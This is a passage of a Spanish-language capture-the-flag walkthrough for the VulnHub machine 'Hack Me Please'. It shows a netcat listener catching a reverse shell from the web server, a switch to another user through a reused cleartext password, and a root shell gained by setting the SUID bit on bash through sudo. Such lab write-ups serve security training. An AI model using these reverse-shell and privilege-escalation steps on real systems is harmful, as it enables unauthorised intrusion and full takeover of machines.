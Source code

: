 Introducimos oneliner para entablar reverse shell y nos ponemos en escucha en el puerto 443

<img src="/assets/VH/HackMePlease/revshell.png">

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.148] from (UNKNOWN) [192.168.1.144] 36300
bash: cannot set terminal process group (944): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/seeddms51x/data/1048576/4$ whoami
whoami
www-data
```

### Movimiento Lateral

* * *

Enumerando directorios localizamos el directorio del usuario `saket`. Recordemos que encontramos unas credenciales en texto claro de este usuario. Comprobamos si hay reutilización de contraseñas

```bash
www-data@ubuntu:/home$ ls
saket
www-data@ubuntu:/home$ su saket
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

saket@ubuntu:/home$ whoami
saket
```

### Escalada de Privilegios

* * *

Enumerando privilegios de sudo del usuario `saket` vemos que tiene capacidad de ejecutar todo como root

```bash
saket@ubuntu:~$ sudo -l
[sudo] password for saket: 
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Asignamos privilegio SUID a la bash y nos spawneamos una bash con privilegios de root

```bash
saket@ubuntu:~$ sudo chmod u+s /bin/bash
saket@ubuntu:~$ bash -p
bash-5.0# whoami
root
```



Hemos completado la máquina **Hack Me Please** de VulnHub!! Happy Hacking!!
